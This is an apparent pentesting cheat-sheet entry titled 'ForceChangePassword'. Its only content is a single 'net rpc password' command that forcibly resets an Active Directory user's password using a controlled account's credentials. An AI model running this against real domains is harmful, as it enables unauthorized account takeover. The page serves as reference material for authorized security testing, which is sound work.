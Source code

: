 # ForceChangePassword

{% code overflow="wrap" %}
```shell
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
{% endcode %}

